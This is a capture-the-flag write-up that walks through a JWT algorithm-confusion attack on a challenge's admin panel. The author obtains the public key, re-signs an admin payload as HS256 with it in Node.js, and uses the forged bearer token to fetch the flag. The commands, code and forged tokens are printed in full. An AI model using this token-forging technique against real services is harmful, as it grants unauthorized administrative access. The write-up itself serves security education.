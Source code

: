 # Unlock Me

> Points: 927 [1000]

## Description 
>Our agents discovered COViD's admin panel! They also stole the credentials **minion:banana**, but it seems that the user isn't allowed in. Can you find another way?  
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)  
>This challenge:
>- Unlocks other challenge(s)
>- Is eligible for Awesome Write-ups Award
>- Prerequisite for Mastery Award - Web Warrior

## Solution
This challenge was interesting as we were able to learn about new jwt type attacks given the public key. Overall it was a freshing and new web challenge for us!

The credentials username banana and banana were given to us. The link brings us to the COViD HQ login. Attempting random credentials gives us the `Incorrect credentials` error. However when attempting to login using the credentials provide, us a different error `Only admins are allowed into HQ!`.

Upon closer inspection into the source code of html this was found
```html
<script>
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
</script>
```

Upon seeing this we thought why not trying to access [public.pem](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) file directly which gave us the actual public.pem.

In addition the `fetch("login")` and `fetch("unlock")` seem to api routes.

As such we decided to query to api directly using powershell's `Invoke-RestMethod` to query the `/login`

```powershell
irm -Method Post "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login" -ContentType "application/json" -Body (@{username="minion";password="banana";}| ConvertTo-Json)
```

This gave us the access token to minion's account will be verified later
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDIxMDcwfQ.x6nDrEn2HrT0Ey807PaevMobHpXxlEBJmRh1DsHEPhuYAJqxRrsgYP6SEpegOZ0WP8TmmHPmXc3Vq0vvZfHy4fKE91_m0a0oC9kyg8TziamJGu7htDl2niivf3w_Kf2A6nvmVc--z8bvGD2ir3gtHr4oncC53K7M7nOSdNbdXEPOczSE-TzijpaunMcr9oltmkMNWqwVl7JZgdTqbgUob5kxk9sSshiZEfZ-U45Ykc1WfecTWC_vgLmMaM8xvgGmcg_DxzM9cIMOC3Cmq96a3X7pZC3JkTk0KSOI1UUrue-2fCm2FimdABy9QrcZc9f4FyiVECX5jlt5Dq5BUFQWWv5k1d3ddOyG0T9EBf-jhmCGl581ixkDFtE44RNP8us2kyaffKWytR11xUEx13-OQowHc9yfIYi6nfbw2_ZCwTJgLBMQmkX72vyhsvAHGTjR8q2UKpEafIxDIVxy8IImXCSyuoOrpwDVzjewmBaLFYdgA80gzEHxYGq5OwMeDusyEFC_piJzy7J6FVJt7XIdxws1beswddaYfkEawRCHwYMqAg_qF63ws9omgyOQmTRq0KSYlyMU-5iOMC9QnKolpgyxqIBUizqV6sCQlKC6b9MYlSfo282vSecAe-EhMG2oE-oq5T_FMPzOyr4w_jh8aeVrHJIWM_qXnJOLuV04m7s
```

At this point we were quite stuck until we manage to find this https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ which mentions the `None` algorithm attack. To test this we installed nodejs and jsonwebtoken
and ran the following code
```javascript
const jwt = require('jsonwebtoken')
let cert = fs.readFileSync('./public.pem')
let token = "thejwttokenfromabove"
payload = jwt.verify(token,cert)
payload
{ username: 'minion', role: 'user', iat: 1607421070 }
```
At this point we altered the payload and tried the none algorithm.

```javascript
payload['username']='admin'
'admin'
payload['role']='admin'
'admin'
payload
{ username: 'admin', role: 'admin', iat: 1607421070 }
jwt.sign(payload,cert,{algorithm:"None"})
Uncaught Error: "algorithm" must be a valid string enum value
    at /root/test/node_modules/jsonwebtoken/sign.js:52:15
    at Array.forEach (<anonymous>)
    at validate (/root/test/node_modules/jsonwebtoken/sign.js:43:6)
    at validateOptions (/root/test/node_modules/jsonwebtoken/sign.js:58:10)
    at Object.module.exports [as sign] (/root/test/node_modules/jsonwebtoken/sign.js:141:5)
```
At this point, I rechecked the same article saw another `RS256` to `HS256` vulnerability. Trying it, I was able to successfully generate a HS256 jwt token!

```javascript
jwt.sign(payload,cert,{algorithm:"HS256"})
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI'
```
Using the token above I tried to call the `/unlock` which gave me the flag! Whoorays!

```powershell
irm "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock" -Headers @{Authorization="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI";}

flag
----
govtech-csg{5!gN_0F_+h3_T!m3S}
```

## Flag
`govtech-csg{5!gN_0F_+h3_T!m3S}`

